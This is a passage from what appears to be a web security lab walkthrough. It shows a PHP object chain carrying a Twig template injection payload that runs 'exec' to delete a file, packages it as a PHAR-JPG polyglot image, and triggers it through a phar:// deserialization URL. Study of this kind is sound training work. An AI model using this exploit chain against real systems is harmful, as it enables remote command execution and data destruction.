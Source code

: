 Use this PHP script to make use of the chain and call the delete function:

    class CustomTemplate {}
    class Blog {}
    $object = new CustomTemplate;
    $blog = new Blog;
    $blog->desc = '{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("rm /home/carlos/morale.txt")}}';
    $blog->user = 'user';
    $object->template_file_path = $blog;

Now creating a PHAR-JPG polyglot containing this PHP script using [phar-jpg-polyglot](https://github.com/kunte0/phar-jpg-polyglot). Paste the above script inside `phar_jpg_polyglot.php` under `// pop exploit class, inject class here`. Run the script using `php -c php.ini phar_jpg_polyglot.php` to generate `out.jpg`. This is how the serialized object looks like:

    O:14:"CustomTemplate":1:{s:18:"template_file_path";O:4:"Blog":2:{s:4:"desc";s:106:"{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("rm /home/carlos/morale.txt")}}";s:4:"user";s:4:"user";}}

Upload `out.jpg` and visit the link `/cgi-bin/avatar.php?avatar=phar://wiener` to make the deserialization process happen and solve the lab.